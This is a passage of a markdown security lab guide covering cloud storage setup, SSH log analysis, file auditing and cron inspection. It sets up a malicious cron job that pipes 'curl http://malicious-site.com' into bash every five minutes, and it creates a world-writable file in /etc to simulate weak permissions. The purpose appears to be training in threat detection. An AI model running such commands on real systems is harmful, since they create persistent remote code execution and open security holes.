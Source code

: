 
#### **2.2 Cloud Storage**
1. **Create a Bucket**:
   ```bash
   gcloud storage buckets create my-test-bucket --location=us-central1
   ```
   - **Description**: Creates a storage bucket in the `us-central1` region.

2. **Upload a File**:
   ```bash
   echo "Sensitive data" > sensitive.txt
   gcloud storage cp sensitive.txt gs://my-test-bucket/
   ```
   - **Description**: Uploads a file to the bucket.

---

### **3. Host-Based Threat Analysis**

#### **3.1 Log Analysis**
1. **Analyze SSH Logs**:
   ```bash
   sudo grep "Failed password" /var/log/auth.log
   ```
   - **Description**: Filters for failed SSH login attempts.

2. **Track File Access**:
   ```bash
   sudo auditctl -w /etc/passwd -p wa
   sudo ausearch -f /etc/passwd
   ```
   - **Description**: Tracks write and attribute changes on `/etc/passwd`.

---

#### **3.2 Endpoint Security**
1. **Create a Malicious Cron Job**:
   ```bash
   echo "*/5 * * * * /bin/bash -c 'curl http://malicious-site.com | bash'" | crontab -
   ```
   - **Description**: Creates a cron job to download and execute a malicious script every 5 minutes.

2. **Analyze Cron Jobs**:
   ```bash
   crontab -l
   ```
   - **Description**: Lists all cron jobs for the current user.

---

### **4. Simulate Vulnerabilities**

#### **4.1 Simulate Weak Permissions**
1. **Create a Sensitive File with Weak Permissions**:
   ```bash
   sudo touch /etc/weak_config.conf
   sudo chmod 777 /etc/weak_config.conf
   ```
   - **Description**: Creates a file in `/etc` with permissions that allow any user to read, write, and execute it.
